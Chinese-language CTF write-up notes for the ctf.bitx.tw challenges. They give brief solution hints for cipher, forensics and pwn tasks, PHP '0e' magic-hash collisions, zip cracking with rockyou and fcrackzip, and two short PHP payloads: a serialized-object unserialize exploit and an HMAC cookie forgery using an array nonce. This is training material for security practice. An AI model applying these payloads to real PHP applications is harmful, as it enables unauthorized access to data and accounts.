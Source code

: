 # ctf.bitx.tw
# 適中題目
  - `Extract`: POST傳`answer`並且`md5(num1)`不可以`0e`開頭
  - `Cookie`: cookie為`帳號|md5(md5(帳號))`

# 水題
  - `Tcash`: 建立字母哈希表對映解出
  - `URLdecode`: 兩次編碼`FLAG`
  - `hash`: php '0e'
  - `Regular Expression`: `NTIHS{123456_Lol_fucK_}`
  - `Rockyou`: 利用`rockyou.txt`搭配`fcrackzip`

### 意義不大
  - `Easy Forensics`: `strings 1.jpg`
  - `Web Welcome`: `f12`
  - `QR code Repairer`: 小畫家修理他

## decoder水題
  - `Caesar`: a->n
  - `Morse`
  - `Rail Fence`: rail is `15`
  - `Substitution`: Substitution solver
  - `Transposition`: Transposition solver
  - `Base Family`: ascii85->base64->base58->base32
  - `base64`

### 意義不大
  - `ok`: ook decoder 
  - `hex`
  - `Binary`
  - `fuck???`: jsfuck，直接丟到js console執行即可
  - `Decimal`: dec to ascii
  - `pig pig`: pigpen-cipher 
  - `Music`: 頻譜圖
  - `KeyBoard`: 將鍵盤的字母連連看得到字母
  - `Easy Forensics2`: `xxd` 找到flag，沒辦法在第一瞬間用regex找到，因為有間隔

### robot
  - [step1](http://ctf.bitx.tw:10006/robots.txt)
  - [step2](http://ctf.bitx.tw:10006/here_is_fake_flag.html)

# RSA
  ```
  n = p * q = 1887367
  m = (c ^ d) % n
  ```

# pwn
 - `bof`: ~~少8就過~~，透過ret2plt的方法解決
 - `bof2`: ret2plt的方法解決
 - `pwntools`: 加減乘除，不要印出來運算過程，可以印出進度

# hash2
  編寫碰撞腳本，確保生成的hash值符合`^0+e[0-9]*$`，
用筆電(3.20 GHz)可以在一個小時左右或更快解出來。
  [flag](http://ctf.bitx.tw:10005/?md5=280289646&sha1=411837728&md6=721833251)

# Unserialize
  由於序列化的時候會包含`\0`與`*`，因此在輸出的時候直接透過php進行編碼，
比較不會出現問題，如果輸出之後透過其他工具編碼有機率出現問題。
  ``` php 
  <?php

  class HackMeIfYouCan
  {
      private $pandorasbox;
      function __construct() {
          $this->pandorasbox = new callme();
      }
  };

  class callme
  {
      protected $data = 'config.php';
  }

  $obj = new HackMeIfYouCan();


  echo urlencode(serialize($obj));
  ```
  輸入之後觀看原始碼含有flag

# cookie2
  程式碼使用`===`，因此無法透過碰撞的方式偽造hash值，傳入陣列使得產生金鑰的函數返回為空

  ``` php
  $flag = 'flag1';
  $nonce = array('null');
  echo urlencode('admin|' . hash_hmac('sha256', 'admin', ''));
  # 與下面等價
  # echo urlencode('admin|' . hash_hmac('sha256', 'admin', hash_hmac('sha256',$nonce, $flag)));
  ``` 
  修改玩cookie之後[享受](http://ctf.bitx.tw:10002/?nonce[]=thisisanonce)
